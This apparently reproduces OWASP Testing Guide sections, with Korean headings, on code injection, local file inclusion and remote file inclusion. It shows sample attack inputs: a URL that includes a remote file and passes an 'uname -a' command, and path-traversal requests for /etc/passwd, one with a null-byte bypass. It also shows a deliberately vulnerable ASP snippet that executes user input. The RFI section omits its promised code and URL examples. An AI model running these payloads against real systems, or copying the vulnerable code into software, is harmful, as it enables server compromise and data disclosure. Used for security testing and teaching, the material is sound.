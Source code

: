 ============================================================================================
OTG-INPVAL-012 (Code Injection 침투 테스트)
============================================================================================

|

개요
============================================================================================

This section describes how a tester can check if it is possible to
enter code as input on a web page and have it executed by the
web server.
In Code Injection testing, a tester submits input that is processed
by the web server as dynamic code or as an included file. These
tests can target various server-side scripting engines, e.g.., ASP
or PHP. Proper input validation and secure coding practices need
to be employed to protect against these attacks.

|

테스트 방법
============================================================================================

Black Box testing
---------------------------------------------------------------------------------------

**Testing for PHP Injection vulnerabilities**

Using the querystring, the tester can inject code (in this example,
a malicious URL) to be processed as part of the included file:

**예상결과**

.. code-block:: html

    http://www.example.com/uptime.php?pin=http://www.
    example2.com/packx1/cs.jpg?&cmd=uname%20-a

The malicious URL is accepted as a parameter for the PHP page,
which will later use the value in an included file.

|

Gray Box testing
---------------------------------------------------------------------------------------

**Testing for ASP Code Injection vulnerabilities**

Examine ASP code for user input used in execution functions.
Can the user enter commands into the Data input field? Here, the
ASP code will save the input to a file and then execute it:


.. code-block:: html

    <%
    If not isEmpty(Request( “Data” ) ) Then
    Dim fso, f
    ‘User input Data is written to a file named data.txt
    Set fso = CreateObject(“Scripting.FileSystemObject”)
    Set f = fso.OpenTextFile(Server.MapPath( “data.txt” ), 8, True)
    f.Write Request(“Data”) & vbCrLf
    f.close
    Set f = nothing
    Set fso = Nothing
    ‘Data.txt is executed
    Server.Execute( “data.txt” )
    Else
    %>

.. code-block:: html

    <form>
    <input name=”Data” /><input type=”submit” name=”Enter
    Data” />
    </form>
    <%
    End If
    %>)))

|

References
============================================================================================

- Security Focus - http://www.securityfocus.com
- Insecure.org - http://www.insecure.org
- Wikipedia - http://www.wikipedia.org
- Reviewing Code for OS Injection

|

|

============================================================================================
Testing for Local File Inclusion
============================================================================================

개요
============================================================================================

The File Inclusion vulnerability allows an attacker to include a file,
usually exploiting a “dynamic file inclusion” mechanisms implemented
in the target application. The vulnerability occurs due to
the use of user-supplied input without proper validation.
This can lead to something as outputting the contents of the file,
but depending on the severity, it can also lead to:

- Code execution on the web server
- Code execution on the client-side such as JavaScript which can
lead to other attacks such as cross site scripting (XSS)
- Denial of Service (DoS)
- Sensitive Information Disclosure

Local File Inclusion (also known as LFI) is the process of including
files, that are already locally present on the server, through the
exploiting of vulnerable inclusion procedures implemented in the
application. This vulnerability occurs, for example, when a page
receives, as input, the path to the file that has to be included and
this input is not properly sanitized, allowing directory traversal
characters (such as dot-dot-slash) to be injected. Although
most examples point to vulnerable PHP scripts, we should keep
in mind that it is also common in other technologies such as JSP,
ASP and others.

|

테스트 방법
============================================================================================

Since LFI occurs when paths passed to “include” statements are
not properly sanitized, in a blackbox testing approach, we should
look for scripts which take filenames as parameters.
Consider the following example:

.. code-block:: html

    http://vulnerable_host/preview.php?file=example.html

This looks as a perfect place to try for LFI. If an attacker is lucky
enough, and instead of selecting the appropriate page from the 


array by its name, the script directly includes the input parameter,
it is possible to include arbitrary files on the server.
Typical proof-of-concept would be to load passwd file:

.. code-block:: html

    http://vulnerable_host/preview.php?file=../../../../etc/passwd

If the above mentioned conditions are met, an attacker would
see something like the following:

.. code-block:: html

    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    alex:x:500:500:alex:/home/alex:/bin/bash
    margo:x:501:501::/home/margo:/bin/bash
    ...


Very often, even when such vulnerability exists, its exploitation is a
bit more complex. Consider the following piece of code:

.. code-block:: html

    <?php “include/”.include($_GET[‘filename’].“.php”); ?>

In the case, simple substitution with arbitrary filename would not
work as the postfix ‘php’ is appended. In order to bypass it, a technique
with null-byte terminators is used. Since %00 effectively presents
the end of the string, any characters after this special byte will
be ignored. Thus, the following request will also return an attacker
list of basic users attributes:

.. code-block:: html

    http://vulnerable_host/preview.php?file=../../../../etc/passwd%00

References
============================================================================================

- Wikipedia - http://www.wikipedia.org/wiki/Local_File_Inclusion
- Hakipedia - http://hakipedia.com/index.php/Local_File_Inclusion

Remediation
============================================================================================

The most effective solution to eliminate file inclusion vulnerabilities
is to avoid passing user-submitted input to any filesystem/framework
API. If this is not possible the application can maintain a white
list of files, that may be included by the page, and then use an identifier
(for example the index number) to access to the selected file. Any
request containing an invalid identifier has to be rejected, in this way
there is no attack surface for malicious users to manipulate the path.

|

|

============================================================================================
Testing for Remote File Inclusion
============================================================================================

Summary
============================================================================================

The File Inclusion vulnerability allows an attacker to include a file,
usually exploiting a “dynamic file inclusion” mechanisms implemented
in the target application. The vulnerability occurs due to the use of
user-supplied input without proper validation.

This can lead to something as outputting the contents of the file, but
depending on the severity, it can also lead to:

- Code execution on the web server
- Code execution on the client-side such as JavaScript which can lead
to other attacks such as cross site scripting (XSS)
- Denial of Service (DoS)
- Sensitive Information Disclosure

Remote File Inclusion (also known as RFI) is the process of including
remote files through the exploiting of vulnerable inclusion procedures
implemented in the application. This vulnerability occurs, for
example, when a page receives, as input, the path to the file that has
to be included and this input is not properly sanitized, allowing external
URL to be injected. Although most examples point to vulnerable
PHP scripts, we should keep in mind that it is also common in other
technologies such as JSP, ASP and others.

|

테스트 방법
============================================================================================

Since RFI occurs when paths passed to “include” statements are not
properly sanitized, in a blackbox testing approach, we should look for
scripts which take filenames as parameters. Consider the following
PHP example:
In this example the path is extracted from the HTTP request and no
input validation is done (for example, by checking the input against a
white list), so this snippet of code results vulnerable to this type of
attack. Consider infact the following URL:
In this case the remote file is going to be included and any code contained
in it is going to be run by the server.

|

References
============================================================================================

Whitepapers
------------------------------------------------------------------------------------

• “Remote File Inclusion”: http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
• Wikipedia: “Remote File Inclusion”: http://en.wikipedia.org/wiki/Remote_File_Inclusion

Remediation
============================================================================================

The most effective solution to eliminate file inclusion vulnerabilities
is to avoid passing user-submitted input to any filesystem/framework
API. If this is not possible the application can maintain a white
list of files, that may be included by the page, and then use an identifier
(for example the index number) to access to the selected file. Any
request containing an invalid identifier has to be rejected, in this way
there is no attack surface for malicious users to manipulate the path.



